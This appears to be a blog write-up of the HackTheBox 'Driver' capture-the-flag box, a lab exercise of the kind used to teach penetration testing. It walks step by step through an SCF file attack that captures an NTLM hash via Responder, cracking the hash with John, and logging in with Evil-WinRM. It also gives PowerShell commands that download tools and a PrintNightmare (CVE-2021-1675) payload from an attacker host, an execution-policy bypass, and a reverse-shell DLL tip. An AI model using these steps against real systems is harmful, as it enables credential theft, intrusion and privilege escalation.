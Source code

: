 ```yaml
---
title: "HackTheBox - Driver"
date: 2022-03-01 12:00:00 +/-0530
categories: [HackTheBox]
tags: [CTF, HTB]     # TAG names should always be lowercase
---
```


![LOGO DRIVER](../assets/img/Driver/Driver.png)


## Description
The box is available [here](https://app.hackthebox.com/machines/387) if you want to try it before read this.

 - OS : Linux
 - Release date : 02/10/2021
 - Difficulty : easy
 - Points : 20
 - IP Adress : ````10.10.11.106````

All is good, so here we go !

## Foothold
First, we scan the IP with the famous tool [**Nmap**](https://nmap.org), using the command :

```markdown
nmap 10.10.11.106 -sC -sV -p-
```

We obtain the following output :
```markdown
Starting Nmap 7.91 ( https://nmap.org ) at 2022-02-25 21:37 CET
Stats: 0:00:03 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 33.90% done; ETC: 21:38 (0:00:06 remaining)
Nmap scan report for 10.10.11.106
Host is up (0.030s latency).
Not shown: 997 filtered ports
PORT    STATE SERVICE
80/tcp  open  http
135/tcp open  msrpc
445/tcp open  microsoft-ds
5985/tcp open  wsman

Nmap done: 1 IP address (1 host up) scanned in 5.20 seconds

```

There are 4 open ports : 80 (**HTTP**), 135 (**MSRPC**), 445 (**SMB**) and 5985 (**Evil-WM**)...

So now, we are going to look the website. We have a Pop-up which contain a authentification. We can try to use admin/admin...

![alt text](../assets/img/Driver/web_lock.png)

And, sometimes, it works :)

![alt text](../assets/img/Driver/website.png)

When we explore the website, we find this page with an upload form. Here, we can make a link with the *upload* and *SMB*, and we can exploit a *SCF File Attacks*.

This [article](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/) is really useful to understand this attack. It is really simple to exploit :

 - Create a .scf file
 - Add this following lines :
 ```
[Shell]
Command=2
IconFile=\\{YOUR_IP}\share\pentestlab.ico
[Taskbar]
Command=ToggleDesktop
   ```
 - Add '@' in front of the filename

We have the exploit file but we need to setup a listener with [**Responder**](https://github.com/SpiderLabs/Responder) (installed in Kali-Linux).

```markdown
sudo responder -wrf --lm -v -I tun0
```

Then, upload the file with the website and wait a little.

![alt text](../assets/img/Driver/hash_responder.png)

We receive a connection with a user and a hash.

```markdown
tony::DRIVER:2a7cdabfa3a86e6d:8145E5C2E03F2363A318FFE99BE766AC:0101000000000000216A32ACC32AD8014F1FE417A226E7A300000000020000000000000000000000
```

We create a file which contains the hash and we use [**John**](https://www.openwall.com/john/) to crack the password.

```markdown
john {HASH_FILE} --wordlist=path/to/rockyou.txt
```

We wait a moment, and **John** gives us the password : ````liltony````.

Now we can access to the machine with [**Evil-WinRM**](https://github.com/Hackplayers/evil-winrm). It a useful tool when you pentest Windows machines.


```markdown
evil-winrm -i 10.10.11.106 -u tony
```
Now, we are connected with user Tony. The user flag is located in ````C:\Users\Tony\Desktop\user.txt````.

## Privilege Esclation
The last part is to become the Administrator user. First, we can enum the box with [**WinPEAS**](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS), the **Linpeas** for Windows.

To import this, use the following command: 

```markdown
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://{YOUR_IP}:8080/winPEASany_ofs.exe','C:\Users\tony\Downloads\winpeas.exe')"
```

And execute it :
```markdown
.\winpeas.exe
```

Once **WinPEAS** finish, we can see that the *spoolsv* process is working. So, we can check if it is vulnerable with the ***NightMare*** exploit.

![alt text](../assets/img/Driver/spoolsv.png)

We search on github a exploit of CVE-2021-1675 and we find this [one](https://github.com/mtthwstffrd/calebstewart-CVE-2021-1675). We upload the .ps1 payload on the machine :
```markdown
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://[YOUR_IP}:8080/CVE-2021-1675.ps1','C:\temp\bad.ps1')"
```

Then, we just have to execute the payload: 
```markdown
Import-Module .\bad.ps1
```

But we are restricted because we can't execute the payload. We try to bypass this by using ````powershell -ep bypass```` but **Evil-WinRM** doesn't like. We find a other command: 
```markdown
set-ExecutionPolicy RemoteSigned -Scope CurrentUser
```

Now, it is perfectly working ! 

The exploit add a new user in the local admin group. So, we gonna create a new local user but with admin privileges.
```markdown
Import-Module .\bad.ps1
Invoke-Nightmare -DriverName "Xerox" -NewUser "{RANDOM_USERNAME}" -NewPassword "{RANDOM_PASSWORD}" 
```
![alt text](../assets/img/Driver/exploited.png)

Finally, open a new session with the new user and you will be in the Administrator group.

![alt text](../assets/img/Driver/net_user.png)

Go in ````C:\Users\Administrator\Desktop\````, and made a ````type root.txt````

![alt text](../assets/img/Driver/root.jpg)

And BOOM, we have the root flag !

*Note: To have a shell as NT/Authority System, just create a reverse shell in .dll and use ````Invoke-Nightmare -DLL "C:\path\to\your\reverse_shell.dll"````.*

## Conclusion
The box was really interesting and we learned new attacks about the .scf files. I recommend this box, 4 stars because it was, for me, a little guessing for the user flag.

Thanks for reading ! :)
